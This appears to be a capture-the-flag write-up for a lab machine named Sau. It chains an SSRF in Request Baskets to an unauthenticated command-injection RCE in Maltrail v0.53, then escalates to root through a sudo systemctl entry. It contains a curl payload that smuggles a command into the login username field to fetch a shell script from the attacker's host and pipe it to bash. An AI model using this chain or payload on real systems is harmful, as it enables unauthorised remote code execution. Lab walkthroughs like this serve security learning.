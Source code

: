 # Sau

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.22.88       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:15 +08
Nmap scan report for 10.129.22.88
Host is up (0.24s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Port 80 is being filtered, while port 55555 is open.&#x20;

### Request Baskets SSRF --> Mailtrail RCE

Port 55555 hosted an application that is able to collect and inspect HTTP requests:

<figure><img src="../../.gitbook/assets/image (3310).png" alt=""><figcaption></figcaption></figure>

We can create one by clicking on create:

<figure><img src="../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

Tihs acts similar to a webhook, and is able to retrieve requests sent to that unique URL.

<figure><img src="../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

We are able to set the Responses from the website. as well as where the traffic is being forwarded to, just like we can with Webhooks. Setting the Forward URL to our own HTTP server results in requests being sent there from the machine.

<figure><img src="../../.gitbook/assets/image (1194).png" alt=""><figcaption></figcaption></figure>

Since port 80 was being filtered, we can set it to `http://localhost` and try setting all the options to True. Afterwards, sending GET requests to our bucket would result in HTML being returned:

```
$ curl http://10.129.22.88:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
<TRUNCATED>
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```

At the bottom, we can see that port 80 has Mailtrail v0.53 running, which is vulnerable to an unauthenticated RCE exploit.

{% embed url="https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/" %}

To exploit this, we just need to change the forward URL to `http://127.0.0.1/login` and send a POST request via `curl` with a payload like this:

{% code overflow="wrap" %}
```bash
$ curl -X POST --data 'username=;`curl 10.10.14.31/shell.sh|bash`' http://10.129.22.88:55555/test
```
{% endcode %}

We would get a reverse shell as `puma`:

<figure><img src="../../.gitbook/assets/image (2380).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Systemctl --> Root

The user is able to run a command using `sudo`:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This is easily exploitable to get a `root` shell:

<figure><img src="../../.gitbook/assets/image (1460).png" alt=""><figcaption></figcaption></figure>

Rooted!
